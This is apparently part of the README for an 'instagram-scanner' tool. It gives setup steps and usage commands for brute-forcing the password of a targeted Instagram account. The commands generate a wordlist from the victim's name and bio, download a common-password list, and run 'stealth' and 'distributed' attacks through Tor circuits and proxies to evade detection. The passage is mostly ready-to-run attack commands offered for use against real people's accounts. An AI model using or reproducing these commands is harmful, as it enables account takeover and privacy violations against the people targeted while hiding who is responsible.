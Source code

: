 ### Directory Structure
```
# Required directories (created automatically if missing)
./data/            # For intelligence data storage
./wordlists/       # For wordlist files
./tor_data/        # For Tor configuration (created if tor mode enabled)
```

### Wordlist Setup
The tool includes a sample wordlist (`wordlists/sample_passwords.txt`), but for advanced operations, you should prepare custom wordlists:

```bash
# Use the included sample wordlist (basic)
./instagram-scanner bruteforce -U target_username -w ./wordlists/sample_passwords.txt

# Download common password wordlists (recommended)
mkdir -p ./wordlists
curl -L https://github.com/danielmiessler/SecLists/raw/master/Passwords/Common-Credentials/10-million-password-list-top-1000.txt -o ./wordlists/common_passwords.txt

# Or generate your own targeted wordlist (advanced)
./instagram-scanner wordlist -U target_username -f "Target Name" -B "Target Bio" -O ./wordlists/custom_target.txt
```

### Proxy Configuration (Optional)
For enhanced anonymity beyond Tor, configure proxy servers:

```bash
# HTTP proxy format
./instagram-scanner bruteforce -U target_username -w wordlist.txt -P http://127.0.0.1:8080

# SOCKS5 proxy format
./instagram-scanner bruteforce -U target_username -w wordlist.txt -P socks5://127.0.0.1:1080
```

## 🚀 USAGE EXAMPLES

### Basic Usage
```bash
# View all available commands
./instagram-scanner --help

# View help for a specific command
./instagram-scanner bruteforce --help
```

### Advanced Bruteforce Operations
```bash
# Standard bruteforce attack
./instagram-scanner bruteforce -U target_username -w ./wordlists/common_passwords.txt

# Advanced stealth bruteforce with timing randomization
./instagram-scanner bruteforce -U target_username -w ./wordlists/custom.txt --threads 3 --delay-random 1500-4000 --stealth-mode

# Distributed attack with Tor circuits
./instagram-scanner bruteforce -U target_username -w ./wordlists/custom.txt --tor --circuits 5 --retry-count 3
```
